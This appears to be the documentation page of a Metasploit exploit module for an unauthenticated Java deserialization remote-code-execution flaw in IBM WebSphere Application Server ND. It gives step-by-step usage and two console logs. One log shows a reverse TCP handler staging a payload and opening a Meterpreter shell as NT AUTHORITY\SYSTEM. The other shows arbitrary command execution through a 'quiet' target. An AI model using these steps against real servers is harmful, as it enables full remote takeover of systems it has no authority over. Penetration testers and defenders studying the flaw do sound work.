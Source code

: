 ## Vulnerable Application

This module exploits the lack of proper authentication checks in IBM Websphere Application Server ND that allows for the execution of an
arbitrary command and upload of an arbitrary file as SYSTEM. The module serializes the required Java objects expected by the IBM Websphere server.

The module affects [IBM Websphere Application Server Network Deployment](https://www.ibm.com/support/knowledgecenter/en/SSAW57/mapfiles/product_welcome_wasnd.html).
The agent is installed on servers with the network deployment feature and listens on TCP port 11002,11004, or 11006. The vulnerability affects versions up to 9.0.0.11.

## Verification Steps

To use this exploit you will need access to IBM Websphere Application Server Network Deployment.

1. Install the IBM Websphere Application Server Network Deployment on a host.
2. Ensure that the service is running and listening on TCP port 11002, 11004, or 11006.
3. Launch `msfconsole`.
4. Load the module `use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce`.
5. Set the remote host ip to execute `set RHOSTS 192.168.162.133`.
6. Set the command to execute `set CMD "calc.exe"`.
7. Run the exploit `exploit`.

The result should be that calc.exe is executed on the target machine.

## Scenarios

The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode

This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell).

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Sending payload: FOAFKqEH.exe
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.200:50575) at 2019-05-30 06:10:39 -0500
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
```

### Target 1: CMD
This target isn't a formal target. It was added to allow a user to execute commands entirely through the IBM Websphere Application Network Deployment Server remote administration feature. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set target 1
target => 1
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set payload cmd/windows/generic 
payload => cmd/windows/generic
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set cmd "ping -n 10 172.22.222.200"
cmd => ping -n 10 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > run

[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Executing command: ping -n 10 172.22.222.200
[*] 172.22.222.200:11006 - Sending payload: uMuOTPtG.bat
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.
[*] Exploit completed, but no session was created.
```
